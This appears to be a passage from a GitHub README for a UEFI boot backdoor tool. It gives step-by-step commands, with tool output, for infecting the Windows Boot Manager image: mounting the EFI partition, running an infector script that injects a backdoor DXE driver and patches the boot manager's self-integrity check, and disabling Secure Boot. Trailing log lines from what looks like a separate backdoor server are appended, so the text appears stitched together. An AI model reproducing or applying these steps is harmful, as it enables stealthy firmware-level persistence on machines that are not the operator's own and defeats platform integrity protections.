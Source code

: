 
## Deploying the backdoor using Windows boot manager infection

Windows boot manager image file infection is preferable deployment method to use Boot Backdoor as persistence technique when you don't have any specialized hardware or physical access to the target machine. Unlike previous methods this deployment method requires UEFI Secure Boot disabled.  

To infect Windows Boot Manager you have to perform the following steps.  

Mount EFI system partition where Windows Boot Manager image file is stored:

```
C:\> mountvol S: /S
```

Backup original image file:

```
C:\> copy S:\EFI\Microsoft\Boot\bootmgfw.efi S:\EFI\Microsoft\Boot\bootmgfw_orig.efi
```

Infect original image file with Boot Backdoor:

```
C:\> python .\infector.py --patch-integrity-checks --dxe-driver .\DmaBackdoorBoot_X64.efi ^ 
     --infect S:\EFI\Microsoft\Boot\bootmgfw_orig.efi ^
     --output S:\EFI\Microsoft\Boot\bootmgfw.efi

[+] Target image to infect: S:\EFI\Microsoft\Boot\bootmgfw_orig.efi
[+] DXE driver: .\DmaBackdoorBoot_X64.efi
[+] Output file: S:\EFI\Microsoft\Boot\bootmgfw.efi
Original entry point RVA is 0x0001fbd0
Original .reloc virtual size is 0x00000d80
Original image size is 0x001bf000
Characteristics of .reloc section was changed to RWX
New entry point RVA is 0x001bfe44
New .reloc virtual size is 0x000040a0
New image size is 0x001c20a0
[+] bootmgr!BmFwVerifySelfIntegrity() signature found at offset 0x0002a25c
[+] DONE
```

Unmount EFI system partition:

```
C:\> mountvol S: /D
```

After that you can restart your system, disable Secure Boot in setup menu and boot into the Windows.  

Please pay attention that passing of `--patch-integrity-checks` command line option to the `infector.py` program is mandatory to disable self check of Windows Boot Manager image integrity, in other case it will not able to boot.  

To specify Boot Backdoor payload you can use `--payload` option of `infector.py`, its argument is a file path of the kernel driver or DLL image.


[05/01/21 03:50:00 AM]: Log file path is "/Users/d_olex/tc/_PoC/MicroBackdoor/server/server.log"
[05/01/21 03:50:00 AM]: Starting backdoor server at address 0.0.0.0:28115
[05/01/21 03:50:00 AM]: server.py PID = 59724, PGID = 59724